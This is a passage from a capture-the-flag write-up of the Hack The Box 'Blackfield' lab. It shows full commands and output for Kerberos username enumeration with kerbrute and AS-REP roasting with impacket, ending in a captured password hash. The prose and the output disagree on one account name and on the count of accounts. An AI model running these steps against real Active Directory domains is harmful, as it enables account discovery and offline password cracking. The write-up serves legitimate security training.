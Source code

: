 It takes a few minutes to run and we eventually get the confirmation about two valid accounts present on the system:

- audit2020
- svc_support
- support

```
snowscan@kali:~/htb/blackfield_demo$ kerbrute userenum --dc 10.10.10.192 -d blackfield users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 08/31/20 - Ronnie Flathers @ropnop

2020/08/31 19:28:55 >  Using KDC(s):
2020/08/31 19:28:55 >  	10.10.10.192:88

2020/08/31 19:29:16 >  [+] VALID USERNAME:	 audit2020@blackfield
2020/08/31 19:31:13 >  [+] VALID USERNAME:	 svc_backup@blackfield
2020/08/31 19:31:13 >  [+] VALID USERNAME:	 support@blackfield
```

## Cracking hashes with AS-REP roasting

Now that we have some account names, we'll try to get some passwords or hashes. A few typical ways we could do this would be to run Responder if we're on the same network segment as the users connecting to the machine, or we could also use the Kerberoast technique to get an encrypted hash from an account with a Service Principal name and crack it offline.

The technique we'll use here instead is AS-REP roasting and it exploits a non-default misconfiguration of user accounts. In a nutshell, if you disable pre-authentication on an account, you can crack the hash offline just like you would do using Kerberoast.

> The ASREPRoast attack looks for users without Kerberos pre-authentication required attribute (DONT_REQ_PREAUTH). That means that anyone can send an AS_REQ request to the DC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline.

The impacket suite has a script that performs this attack. Since our Kali VM isn't configured to resolve the domain using the target machine DNS we need to provide the IP address of the DC and the list of valid users. The output here shows that the `support` account has Pre-Authentication disabled and we can retrieve the asrep hash.

```
snowscan@kali:~/htb/blackfield_demo$ impacket-GetNPUsers blackfield/ -no-pass -dc-ip 10.10.10.192 -usersfile valid_users.txt 
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD:3bbf5b20456f9539e6b59d29278fe01b$d0e38c74a27a2e1d46b2269b85111a158cc2aec48252ad4478eaf949a6311bef44eeca0373174bcaf0b7dfc7dee6d61dc51d1c5388f6f39d40b4bb0c1c1e39c489346007abd3cecf6ae6fc70a40742652358cfe687bd9f86b55de7b44b5e7cb07be8f62b5a95e750d8b8fd591005e778a7f34b7307b1abd7c19cf178e4e6e10bcac8ce418fdb0a56cfb42d06ff2b20ddc6c6e53faef8f3d4ae0c21d34ecc29dc351cb29269065dd97d11187d4ae5426dabdc314b9d1bca6b3bdeb20bdc7659af64211187d47e551d2dac89c5cb1fcbea1be9159ec912cf7fc0d8494f2c51c6ab0007f41c1a24fc11134408750395
```
